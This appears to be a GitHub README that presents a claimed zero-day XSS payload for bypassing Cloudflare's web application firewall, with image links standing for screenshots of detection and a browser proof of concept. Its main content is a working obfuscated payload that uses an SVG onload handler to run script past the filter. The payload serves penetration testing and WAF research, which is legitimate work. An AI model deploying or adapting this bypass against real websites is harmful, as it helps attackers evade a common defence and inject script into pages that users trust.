 # XSS-Bypass-WAF-CloudFlare

This repository will leave a zero-day XSS evaluated by HernanRodriguez1 , to bypass the WAF Cloudflare.

Simple payload detected by CloudFlare:

![image](https://user-images.githubusercontent.com/66162160/184783085-5935835f-9da7-4192-914e-9215c0260b0a.png)
![image](https://user-images.githubusercontent.com/66162160/184783658-3dba58fa-30dd-4c19-9118-ec0dfed0be47.png)
![Uploading image.png…]()


Script Bypass WAF CloudFlare:


```sh
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//
```

# Verificate response header:

![image](https://user-images.githubusercontent.com/66162160/184783183-0c1e21b5-68a8-4211-99d9-c1c66c498367.png)


#PoC Browser:

![image](https://user-images.githubusercontent.com/66162160/184782966-33c94d6e-17b0-43a3-ba7f-09b3bb6b1b27.png)

